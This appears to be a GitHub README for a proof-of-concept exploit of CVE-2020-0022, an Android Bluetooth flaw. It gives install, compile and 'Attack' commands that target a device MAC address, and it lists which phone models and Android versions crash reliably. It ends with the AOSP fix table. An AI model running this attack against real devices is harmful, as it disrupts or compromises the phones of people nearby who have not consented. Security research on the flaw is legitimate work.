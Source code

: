# CVE-2020-0022
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-0022

p0c_blue for CVE-2020-0022

## usage 
- - - Kali Linux
- - - Find d#v1c#s
```url
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Bluetooth
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Blueranger
```
- - - Ditrect program
```url
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Bluevisku
```
- - - Need to install
```bash
apt install libbluetooth-dev
```
- - - Compiling
```bash
gcc p0c_blue.c -lbluetooth -o p0c_blue
```
- - - Attack
```bash
./p0c_blue MAC_ADDR
```

## info

- This poc_hould be stable on android 8.1.0,once it run into truncating packet, crash. But it cloud be very unstable, on Samsung s9 plus surely unstable.
- Run poc on raspberry pi 3B has been tested okay.
- run ubuntu/arch with vmware in windows 10 on thinkpad x1c 2018 or ubuntu with pd in mac os x could not run into truncating code , don't know why.

## Test List
- OnePlus 5T with Android 8.1.0: stable.
- Samsung s9 plus with Android 9.0: unstable.
- Nova 3 with Android 9: stable.

- - - Fix on OS 10
```

CVE	                  References	      Type	          Severity	       Updated AOSP versions
-------------------------------------------------------------------------------------------------
CVE-2020-0022	        A-143894715	      DoS	            Moderate	       10
```
